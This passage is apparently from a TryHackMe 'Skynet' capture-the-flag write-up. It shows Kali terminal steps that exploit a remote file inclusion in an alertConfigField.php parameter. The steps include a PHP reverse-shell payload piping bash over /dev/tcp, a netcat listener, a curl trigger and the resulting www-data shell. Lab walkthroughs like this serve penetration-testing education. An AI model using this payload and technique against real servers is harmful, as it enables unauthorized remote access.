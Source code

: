 ![](../../attachment/d5ebf380dceaa66d0feb6575853a1803.png)

Visit the URL to make sure it's likely vulnerable

![](../../attachment/7105ca6544306c34a7409d8e3d3e851d.png)

Set up revshell 

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ vi shell.php

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ cat shell.php
<?php system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1'"); ?>

┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ rlwrap -r -f . nc -nlvp 1111
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ curl http://10.10.131.237/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.19.145/shell.php
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.131.237] 45406
bash: cannot set terminal process group (1318): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$
```
